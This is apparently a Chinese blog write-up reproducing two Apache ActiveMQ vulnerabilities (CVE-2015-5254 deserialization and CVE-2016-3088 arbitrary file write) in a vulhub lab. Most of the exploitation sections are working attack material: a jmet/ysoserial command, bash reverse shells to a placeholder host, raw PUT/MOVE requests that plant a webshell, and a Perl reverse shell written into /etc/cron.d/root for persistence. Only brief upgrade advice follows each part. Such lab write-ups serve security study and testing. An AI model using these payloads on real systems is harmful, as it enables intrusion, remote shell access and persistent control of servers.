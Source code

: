 ```yaml
---
title: ActiveMQ漏洞复现
author: jh2ng
cover: 'http://image.jh2ing.com/image-20220618154354946.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 12315
date: 2022-06-19 11:08:00
---
```


### ActiveMQ 反序列化漏洞 (CVE-2015-5254)

#### 漏洞描述

​	Apache ActiveMQ 5.13.0 之前的 5.x 版本安全漏洞，该程序造成的漏洞不限制代理中可以序列化的类。远程攻击者可以制作一个特殊的序列化Java Message Service (JMS) ObjectMessage 对象，利用该漏洞执行任意代码。

#### 影响版本

Apache ActiveMQ 5.x < 5.13.0

#### 环境搭建

均使用vulhub搭建

![image-20220618154315800](http://image.jh2ing.com/image-20220618154315800.png) 

#### 漏洞复现

下载[jmet](https://github.com/matthiaskaiser/jmet)（The Java Message Exploitation Tool），在同一目录下创建`external`文件夹，使用`ysoserial`生成Payload发送到服务器端的61616端口 ，访问web管理页面并读取序列化消息，然后就可以触发漏洞。

> jmet是使用ysoserial生成Payload并发送（ysoserial自带jar，我们不需要重新下载），所以我们需要选择一个可以在ysoserial中使用的gadget，比如ROME 

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![image-20220618142041977](http://image.jh2ing.com/image-20220618142041977.png)

此时，一个名为 event 的队列将被添加到目标 ActiveMQ 中。

可以访问`http://your-ip:8161/admin/browse.jsp?JMSDestination=Event`以查看此队列中的所有消息。

（**登录名/密码：** admin/admin）：

![image-20220618142257550](http://image.jh2ing.com/image-20220618142257550.png)

![image-20220618142337488](http://image.jh2ing.com/image-20220618142337488.png)

单击此消息触发命令执行，这次进入容器`docker-compose exec activemq bash`

可以看到/tmp/success已经创建成功，说明exploit成功：

![image-20220618142545079](http://image.jh2ing.com/image-20220618142545079.png)

反弹shell

```
# bash
bash -i >/dev/tcp/your-ip/23333 0>&1 2>&1
# bash64 编码

YmFzaCAta..........
bash -c {echo,YmFzaCAta..........}|{base64,-d}|{bash,-i}

java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAta..........}|{base64,-d}|{bash,-i}" -Yp ROME your-ip 61616
```

![image-20220618145422632](http://image.jh2ing.com/image-20220618145422632.png)

监听端口

![image-20220618145751495](http://image.jh2ing.com/image-20220618145751495.png)

单击消息触发命令执行，成功获取shell

![image-20220618150007572](http://image.jh2ing.com/image-20220618150007572.png)

#### 修复建议

- 升级到最新版

### ActiveMQ 任意文件写入漏洞 (CVE-2016-3088)

#### 漏洞描述

​	2016年4月14日，国外安全研究人员 Simon Zuckerbraun 曝光 Apache ActiveMQ Fileserver 存在多个安全漏洞，可使远程攻击者用恶意代码替代Web应用，在受影响系统上执行远程代码（CVE-2016-3088），这个漏洞出现在Fileserver应用中，漏洞原理其实很简单，就是fileserver支持写入文件（但不解析JSP），同时支持移动文件（MOVE请求）。因此，我们只需要写入一个文件，然后通过移动请求将其移动到任意位置，从而导致任意文件写入漏洞。

#### 影响版本

Apache ActiveMQ 5.0.0 - 5.13.2

#### 环境搭建

![image-20220618154210761](http://image.jh2ing.com/image-20220618154210761.png)

![image-20220618154354946](http://image.jh2ing.com/image-20220618154354946.png)

#### 漏洞复现

- **WebShell**

Webshell需要写在Admin或者Api应用中，两个应用都需要登录才能访问。

默认的 ActiveMQ 帐户和密码是`admin`. 首先访问`http://your-ip:8161/admin/test/systemProperties.jsp`查看ActiveMQ的绝对路径：

![image-20220618163852843](http://image.jh2ing.com/image-20220618163852843.png)

上传Webshell：

```
PUT /fileserver/test.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

![image-20220618165457416](http://image.jh2ing.com/image-20220618165457416.png)

然后将其移至`/opt/activemq/webapps/api/s.jsp`Web 目录中的 API 文件夹 ( )：

```
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/test.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

![image-20220618170415700](http://image.jh2ing.com/image-20220618170415700.png)

访问 Webshell（需要登录）：

localhost:8161/api/test.jsp

![image-20220618173435993](http://image.jh2ing.com/image-20220618173435993.png)

- **编写crontab，自动化反向shell**

首先上传cron配置文件（注意换行必须是`\n`，不是`\r\n`，否则crontab执行会失败）：

```
PUT /fileserver/test1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 245

*/1 * * * * root /usr/bin/perl -e 'use  Socket;$i="10.0.0.1";$p=21111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20220618200435330](http://image.jh2ing.com/image-20220618200435330.png)

将其移至`/etc/cron.d/root`：

```
MOVE /fileserver/test1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

![image-20220618200755003](http://image.jh2ing.com/image-20220618200755003.png)

等待反向shell：

![image-20220619110431746](http://image.jh2ing.com/image-20220619110431746.png)

>注意：要求 ActiveMQ 以 root 身份运行，否则将无法写入 cron 文件。

#### 漏洞修复

- 升级至 5.14.0 及其以后版本